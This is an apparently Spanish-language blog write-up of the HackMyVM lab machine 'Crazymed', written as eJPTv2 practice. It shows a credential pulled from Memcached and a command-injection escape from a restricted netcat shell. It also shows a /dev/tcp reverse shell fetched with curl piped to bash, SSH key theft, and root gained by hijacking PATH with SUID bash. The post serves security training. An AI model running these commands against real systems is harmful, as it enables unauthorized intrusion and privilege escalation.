 ```yaml
---
layout: post
title: "Write Up Crazymed. "
subtitle: "eJPTv2 Track "
category: Blog
tags: [Easy,Genin,Linux,HMVM,SSH,Telnet,Reverse-Shell,Netcat,Mencached,Path-Hijacking,eJPTv2]
image:
  path: /assets/img/crazymed/crazymed.jpg
---
```


***

<!--more-->

1. this ordered seed list will be replaced by the toc
{:toc}

***

## Reconnaissance

### Ping Sweep

```bash
sudo arp-scan -I ens33 --localnet
```

![list](/assets/img/crazymed/1.png){:.lead width="800" height="100" loading="lazy"}

### Nmap

Utilizando **nmap**, comprobamos qué puertos están abiertos.

```bash
nmap --open -p- -Pn -n -T4 -vvv -n 192.168.1.37 -oN allports
```

![list](/assets/img/crazymed/2.png){:.lead width="800" height="100" loading="lazy"}

***

### Services and Versions

```bash
nmap -sVC -Pn -n -p22,80 192.168.1.37 -oN target
```

![list](/assets/img/crazymed/3.1.png){:.lead width="800" height="100" loading="lazy"}


![list](/assets/img/crazymed/3.2.png){:.lead width="800" height="100" loading="lazy"}


***

## Vulnerability Analysis 

### HTTP TCP-80


Aunque tenemos dos puerto en el pueto 22 no podemos hace nada de momento, asi que nos vamos a concentrar en el puerto 80, si usamos herramientas como **whatweb** o **wappalizer**, ni tampoco **ctrl+u**., no coseguiremos nada, es hoara de revisra lo otros puertos.


![list](/assets/img/crazymed/3.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Contenido de la Web.


### Memcached TCP-11211


Es servicio Memcached, si consultamos el [Sitio-Web] oficial nos indica lo siguiente, que se trata de un sistema de almacenamiento en caché de objetos de memoria distribuida, de alto rendimiento, gratuito y de código abierto, y en la misma página oficial, nos proporcionan un ejemplo que es una pista importante.

[Sitio-Web]: https://memcached.org/


![list](/assets/img/crazymed/6.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Es un ejemplo de como conectarnos al servicio.


Consultando en google nos enteramos que hay algunas formas de conectar al servicio una um poco manual que es la de telnet y otra un poco mas automatizada que es con libmemcached-tools o metasploit.


![list](/assets/img/crazymed/11.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Con get log vemos el contenodo de log.



![list](/assets/img/crazymed/12.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
La cfedencial es cr4zyM3d.


## Netcat TCP-4444


ahora procedemos a conectarnos al servicio Netcat con **nc 192.168.1.37 4444**, e introducimos la credencial **cr4zyM3d**, esto nos dara un especie de shell pero muy restringuida ya que solo podemos ejectar 4 comados.


![list](/assets/img/crazymed/13.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Los coamdos que solo se pueden ejecutar son: **id**, **who**, **echo**, **clear**.


En este punto vamos a probar algunos comandoa para ver si podemos obtener algo yo empece con estas formas **echo $(cat /etc/passwd)** , **echo "$(cat /etc/passwd)"**, pero no pude se ve que por lo que sea las comillas y el signo de dolar estan en una black list porque te detecta el ataque pero con **echo `cat /etc/passwd`** funciona bien asi que este va hacer nuestro vector.

Lo que hice fue crear un archivo shell.sh con el contenido `bash -i >& /dev/tcp/192.168.1.32/443 0>&1` que es para mandarnos una reversa-shell, la ip es la de la maquina atacante osea la tuya y el puerto es 443 porque nos debemos poner a la escucha con netcat por otra parte tenemos que levantar un servidor con python para a la hora de subir la shell.sh con **wget** o **curl** y ejecutarlo a la vez.


![list](/assets/img/crazymed/14.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Contenido de shell.sh.


## Exploitation


Ejecutamos el comado.


```bash
echo `curl http://192.168.1.37/shell.sh | bash`
```

![list](/assets/img/crazymed/15.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Obtenemos la shell como **brad** y podemos ver la flag en su escritorio.


***

## Privilege Escalation

Hacemos ls -la para ver los archivos oculatos y exite el directorio **.ssh** donde esta la **id_rsa** que nos la vamos a copiar


![list](/assets/img/crazymed/16.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Copiamos la id_rsa recordando que debe tener los permisos adecuados **600** para conectarnos por ssh para tener unsa shell mas estable.



![list](/assets/img/crazymed/16.png){:.lead width="800" height="100" loading="lazy"}



Es muy buena practica cuando estamos enpezando a uasr herramientas como **Limpeas.sh** o/y **pspy64**, etc, para realizar un reconocimiento del servidor para ver algun posible vector para escalar privileguios.

![list](/assets/img/crazymed/18.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Limpeas nos da la ruta donde tenemos permisos de escritura.


![list](/assets/img/crazymed/19.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Pspy64 nos da el nombre del proceso del vector de ataque, en resumen, este script busca crear los archivos de bandera de usuario si no existen, establece los permisos adecuados, cambia el propietario y grupo de un directorio, evita que se registren comandos en el historial de Bash y elimina archivos de registro específicos en el directorio **/var/log**.


Perfecto, ahora entendemos cómo proceder, vamos a llevar a cabo un **Path Hijacking**, ya que hemos identificado un directorio vulnerable que ya se encuentra en la variable de entorno **PATH**.

El objetivo es secuestrar un ejecutable del sistema que utilice ese directorio, como por ejemplo chmod, chown o **find**.

Para lograr esto, crearemos un archivo llamado **find** y le daremos permisos de ejecucion y a en contenido daremos permiso SUID de la siguiente forma `chmod u+s /bin/bash` De esta manera, el ejecutará automáticamente con privilegios de root, proporcionándonos acceso root al sistema.


![list](/assets/img/crazymed/24.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
La flag esta en el escritorio de root.


***

```bash
🎉 Felicitaciones ya has comprometido Crazymed de Hack My VM 🎉
```
{:.centered}

***

Back to [Certification eJPTv2 ](2023-06-02-Road-to-eJPTv2.md){:.heading.flip-title}
{:.read-more}
